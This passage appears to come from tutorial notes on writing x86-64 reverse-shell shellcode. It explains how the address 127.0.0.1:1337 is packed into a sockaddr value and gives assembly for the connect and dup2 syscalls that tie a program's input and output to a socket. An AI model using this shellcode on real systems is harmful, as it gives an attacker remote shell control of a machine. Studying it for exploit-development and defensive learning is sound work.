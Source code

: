 ```
0x0100007f39050002 ->   0100007f    3905    0002
                        127.0.0.1   1337      2
```

Remember little endian for each value.
IP address is saved byte per byte.

-   socket:

```as
mov rsi, 0x0100007f39050002
push rsi
mov rsi, rsp

mov rax, 0x2a
mov rdi, rbx        ; rbx contains the socket descriptor
mov rdx, 0x10
syscall
```

### dup2

`dup2(int oldfd, int newfd);`

Substitute standard input, output and error with the socket descriptor (rbx).

```as
mov rax, 0x21
mov rdi, rbx
mov rsi, 0
syscall

mov rax, 0x21
mov rdi, rbx
mov rsi, 1
syscall

mov rax, 0x21
mov rdi, rbx
mov rsi, 2
syscall
```
